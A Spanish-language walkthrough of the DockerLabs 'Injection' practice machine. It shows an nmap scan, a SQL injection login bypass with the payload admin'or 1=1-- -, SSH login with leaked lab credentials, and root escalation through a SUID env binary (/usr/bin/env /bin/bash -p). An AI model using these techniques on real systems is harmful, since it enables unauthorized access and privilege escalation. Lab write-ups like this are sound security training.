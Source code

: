 Maquina INJECTION de [DockerLabs](https://dockerlabs.es)

Dificultad: Muy Fácil

Creador: [El Pingüino de Mario](https://www.youtube.com/channel/UCGLfzfKRUsV6BzkrF1kJGsg)

![DockerLabs](./imagenes/Injection.png)

# INTRUSION

Comenzamos haciendo un escaneo con nmap:

```css
nmap -sVC 172.17.0.2
```

```ruby
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-19 14:58 -03
Nmap scan report for 172.17.0.2
Host is up (0.00028s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
|_  256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Iniciar Sesi\xC3\xB3n
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.72 seconds
```

Vemos que solo esta abierto el puerto 22 y 80, sabiendo esto nos iremos directo al navegador y vemos un `panel de login`. Luego de probar las credenciales tipias como `admin:admin` o `root:root` pero ninguna funciona, por lo que continuaremos con probar una inyeccion sql, para esto, `escribiremos el usuario y junto a el 'or 1=1-- -` y de contraseña lo que sea, finalmente quedaria así:

```css
admin'or 1=1-- -
```

Habiendo hecho esto logramos iniciar sesion y nos dan el siguiente mensaje:
![Acceso](./imagenes/dylan.png)

Ahora continuaremos probando el usuario "dylan" con la contraseña "KJSDFG789FGSDF78". Ya estamos dentro.

# ESCALADA DE PRIVILEGIOS

Lo primero que hacemos es ejecutar `sudo -l` pero como no existe ejecutamos `find / -perm -4000 2>/dev/null` y vemos que el binario `env` sale como `/usr/bin/env`, por lo que buscamos en [GTFOBins](https://gtfobins.github.io) y vemos que si ejecutamos lo siguiente escalamos de privilegios a root:

```css
/usr/bin/env /bin/bash -p
```

y listo, somos ROOT.

![root](./imagenes/root.png)



Gracias por leer.
